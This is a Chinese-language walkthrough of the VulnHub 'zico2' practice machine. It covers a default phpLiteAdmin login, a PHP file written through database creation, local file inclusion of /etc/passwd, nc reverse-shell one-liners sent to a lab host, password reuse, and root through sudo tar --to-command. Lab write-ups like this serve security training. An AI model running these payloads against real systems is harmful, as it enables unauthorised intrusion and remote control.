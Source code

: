 ```yaml
---
layout: post
title:  "zico2"
description: walkthrough
category: vulnhub
---
```

# zico2

![image-20200622021837781]({{ site.url }}/assets/zico2.assets/image-20200622021837781.png)

![image-20200622022112975]({{ site.url }}/assets/zico2.assets/image-20200622022112975.png)

![image-20200622022737755]({{ site.url }}/assets/zico2.assets/image-20200622022737755.png)

dbadmin

![image-20200622022839287]({{ site.url }}/assets/zico2.assets/image-20200622022839287.png)

查看test_db.php发现是phpadmin

![image-20200622022928088]({{ site.url }}/assets/zico2.assets/image-20200622022928088.png)

尝试admin，直接进入了

![image-20200622023011176]({{ site.url }}/assets/zico2.assets/image-20200622023011176.png)

![image-20200622023113651]({{ site.url }}/assets/zico2.assets/image-20200622023113651.png)

根据漏洞信息，我们可以简单的通过新建db的方式在服务器生成我们想要的php文件。

![image-20200622023153208]({{ site.url }}/assets/zico2.assets/image-20200622023153208.png)

![image-20200622023608737]({{ site.url }}/assets/zico2.assets/image-20200622023608737.png)

![image-20200622023640700]({{ site.url }}/assets/zico2.assets/image-20200622023640700.png)

```bash
<?php system("id"); ?>
```

![image-20200622023522255]({{ site.url }}/assets/zico2.assets/image-20200622023522255.png)

![image-20200622204546761]({{ site.url }}/assets/zico2.assets/image-20200622204546761.png)

成功可以在状态中发现准确的物理路径

![image-20200622204755930]({{ site.url }}/assets/zico2.assets/image-20200622204755930.png)



查看页面，发现一处似乎存在文件包含的地方

![image-20200622022336943]({{ site.url }}/assets/zico2.assets/image-20200622022336943.png)

![image-20200622022429941]({{ site.url }}/assets/zico2.assets/image-20200622022429941.png)

测试

```bash
http://10.10.10.143/view.php?page=../../../../etc/passwd
```

![image-20200622022505684]({{ site.url }}/assets/zico2.assets/image-20200622022505684.png)

典型本地文件包含，我们尝试包含之前利用漏洞新建的php,,(由于切换了桥接模式，这里ip发生变化)

```bash
http://192.168.43.44/view.php?page=../../../../../usr/databases/evil.php
```

![image-20200622205008985]({{ site.url }}/assets/zico2.assets/image-20200622205008985.png)

可以看到成功执行evil.php中的命令

再次修改evil.php的内容。使之可以为我们弹回一个shell

![image-20200622205200313]({{ site.url }}/assets/zico2.assets/image-20200622205200313.png)

修改为

```bash
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.43.66 1337 >/tmp/f"); ?>
```

![image-20200622205318316]({{ site.url }}/assets/zico2.assets/image-20200622205318316.png)

建立监听并再次包含

得到shell

![image-20200622202856129]({{ site.url }}/assets/zico2.assets/image-20200622202856129.png)

![image-20200622203520190]({{ site.url }}/assets/zico2.assets/image-20200622203520190.png)

尝试密码复用

```bash
zico
sWfCsfJSPV9H3AmQzw8
```

![image-20200622203616638]({{ site.url }}/assets/zico2.assets/image-20200622203616638.png)



![image-20200622203643460]({{ site.url }}/assets/zico2.assets/image-20200622203643460.png)

利用tar，先写个shell

```
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.43.66 1338 >/tmp/f' > shell.sh
```

![image-20200622204157856]({{ site.url }}/assets/zico2.assets/image-20200622204157856.png)

然后将shell压缩

```bash
tar -cvf shell.tar shell.sh
```

![image-20200622204316106]({{ site.url }}/assets/zico2.assets/image-20200622204316106.png)

最后，在kali设置监听，并在目标执行sudo，成功会在kali弹回shell

```bash
sudo /bin/tar -xvf shell.tar --to-command /bin/bash shell.sh
```

![image-20200622204423403]({{ site.url }}/assets/zico2.assets/image-20200622204423403.png)

![image-20200622204437261]({{ site.url }}/assets/zico2.assets/image-20200622204437261.png)

